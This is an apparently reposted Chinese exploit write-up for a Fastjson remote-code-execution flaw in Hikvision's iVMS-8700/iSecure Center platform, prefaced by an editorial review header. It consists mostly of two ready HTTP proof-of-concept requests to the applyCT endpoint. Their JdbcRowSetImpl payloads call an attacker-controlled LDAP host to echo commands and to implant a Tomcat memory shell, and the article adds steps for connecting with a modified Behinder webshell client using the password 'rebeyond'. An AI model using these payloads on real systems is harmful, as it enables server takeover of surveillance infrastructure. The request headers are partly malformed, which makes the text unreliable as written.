





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：iVMS2.0.0–2.9.2/iSecure1.0.0–1.7.0 claimed; JDK/Fastjson/Tomcat dependencies unspecified

代码与实验材料：applyCT LDAP echo and memory-shell requests; proprietary modified JNDI/Behinder explicitly unavailable; headers merged and code escaped

来源证据范围：Original WeChat, no vendor patch/advisory

- **实验改动边界（1）**：Reproduction depends on undisclosed modified tools; does not independently establish claimed full version range。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **证据待核（2）**：Merged Connection/Accept, split User-Agent and missing header/body separator; no cleanup/remediation。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 海康威视综合安防 Fastjson 内存马打法

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Y5wo2yZKaQ6mKAvy5zh9Eg)

**0x01 阅读须知**

**凯撒安全实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**

**0x02 漏洞原理**

**海康威视综合安防管理平台, 可以对接入的视频监控点集中管理, 实现统一部署、统一配置、统一管理和统一调度。海康威视综合安防管理平台存在 Fastjson 远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限。本文将复现该漏洞的内存马打法。**



**0x03 漏洞利用**

影响版本：

V2.0.0 <= iVMS-8700 <= V2.9.2      V1.0.0 <= iSecure Center <= V1.7.0  

**打 cmd 回显：**



**poc：**

```
POST /bic/ssoService/v1/applyCT HTTP/1.1
Host: *
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/41.0.2225.0 Safari/537.36
Connection: closeAccept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate
cmd: whoami
Content-Type: application/json
Content-Length: 197
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:xxx/Basic/TomcatEcho","autoCommit":true\}\}

```

**打入内存马：  
**



**poc：**

使用二开 jndi 打入内存马

```
POST /bic/ssoService/v1/applyCT HTTP/1.1
Host: *
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/41.0.2225.0 Safari/537.36
Connection: closeAccept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate
shell: true
Content-Type: application/json
Content-Length: 202
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:xxx/Basic/TomcatMemshell2","autoCommit":true\}\}

```

使用二开冰蝎 3.0 进行连接 密码：rebeyond 需要添加一个头：X-Options-Ai:xxxx

连接成功！



这里二开工具不对外开放

零日 / 一日 漏洞探讨加 Seven_-0928 、banxor9  

本实验室接受正规站点的授权渗透测试服务。如你的公司业务有 Web 渗透测试，高级渗透测试，红蓝对抗，黑客溯源，Java 代码审计等需求可联系以下微信进行商务洽谈：Xud330327

同时欢迎各位师傅加入 HW 闲聊吹水群（2000 人群）

****


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
